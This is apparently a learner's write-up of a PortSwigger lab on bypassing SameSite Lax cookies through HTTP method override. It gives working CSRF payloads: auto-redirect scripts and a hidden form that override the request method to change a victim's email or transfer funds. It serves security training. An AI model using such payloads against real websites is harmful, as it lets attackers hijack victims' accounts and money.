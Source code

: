 # SameSite Lax bypass via method override

## This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<script>
  document.location =
    "https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000";
</script>
```

```html
<form
  action="https://vulnerable-website.com/account/transfer-payment"
  method="POST"
>
  <input type="hidden" name="_method" value="GET" />
  <input type="hidden" name="recipient" value="hacker" />
  <input type="hidden" name="amount" value="1000000" />
</form>
```

### step1

login wiener account chnage email and intercept request
and send to repeater change request method
it will change to post to get now add `?email=tes111t%40wiener.com&_method=POST
and in expolite section just post this script
`

```html
<script>
  document.location =
    "https://0ab700770395ae3a8489a41f00bb0011.web-security-academy.net/my-account/change-email?email=tes111t%40wiener.com&_method=POST";
</script>
```
